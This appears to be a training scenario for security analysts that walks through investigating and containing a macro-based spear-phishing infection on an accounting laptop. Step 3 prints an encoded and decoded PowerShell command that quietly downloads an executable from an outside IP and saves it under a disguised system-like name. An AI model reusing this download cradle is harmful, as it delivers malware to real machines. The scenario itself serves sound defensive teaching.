

# 01. Scenario: Spear Phishing with Malicious Payload

[⬅️ Back to Scenarios](./README.md) | [Next: Impossible Travel Login ➡️](./02_Scenario_Suspicious_Impossible_Travel_Login.md)

---

### 🚨 The Incident Briefing
* **Timestamp**: Monday, 09:14:22 UTC
* **Affected Asset**: `WKSTN-FIN-042` (Accounting Laptop)
* **Affected User**: `sarah.jenkins@contoso.com` (Senior Accounts Payable)
* **Initial Alert**: Microsoft Sentinel Alert: *"Suspicious Process Spawned by EXCEL.EXE - Base64 Encoded PowerShell"* (Severity: **High**)

---

### 1. Step-by-Step Investigation Walkthrough

#### Step 1: Ingest and Acknowledge the Alert
The L1 analyst claims ticket `INC-20491` in ServiceNow, halting the SLA timer.

#### Step 2: Inspect EDR Process Lineage
Opening Microsoft Defender XDR reveals the abnormal parent-child execution tree:



#### Step 3: Decode the Malicious PowerShell Command
The command line recorded in the EDR event:
```powershell
powershell.exe -w hidden -enc aWV4IChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkRmlsZSgnaHR0cDovLzE4NS4yMjAuMTAxLjUvcGF5bG9hZC5leGUnLCAnQzpcVXNlcnNclB1YmxpY1xzdmNob3N0X3VwZGF0ZS5leGUnKQ==
```
The analyst pastes the Base64 string into **CyberChef**:
```powershell
iex (New-Object Net.WebClient).DownloadFile('http://185.220.101.5/payload.exe', 'C:\Users\Public\svchost_update.exe')
```

#### Step 4: Threat Intelligence Lookup
* **Destination IP**: `185.220.101.5`
* **AbuseIPDB Result**: 100% Abuse Confidence Score (Known Emotet C2 Server in Germany).
* **VirusTotal Result for `svchost_update.exe`**: 58/72 engines flag as `Trojan.GenericKD`.

---

### 2. Immediate Containment Actions Taken

1. **Host Isolation**: Analyst clicks **[Isolate Device]** in Defender XDR. `WKSTN-FIN-042` is immediately cut off from the local network and internet.
2. **Identity Revocation**:
   ```powershell
   Revoke-MgUserSignInSession -UserId "sarah.jenkins@contoso.com"
   ```
3. **Perimeter Firewall Block**: Block outbound connections to `185.220.101.5` on corporate firewalls.
4. **Email Purge**: The email gateway searches for all messages with subject *"Q3 Overdue Invoice"* containing attachment `Invoice_Q3.xlsm` and purges 14 copies from other employee inboxes before anyone else clicks it!

---

### 3. Root Cause and Lessons Learned
* **Root Cause**: Macro execution was permitted on downloaded Office files without digital signatures.
* **Remediation**: Enforce Group Policy Object (GPO) to **block all macros in Office files originating from the internet** (Mark-of-the-Web).
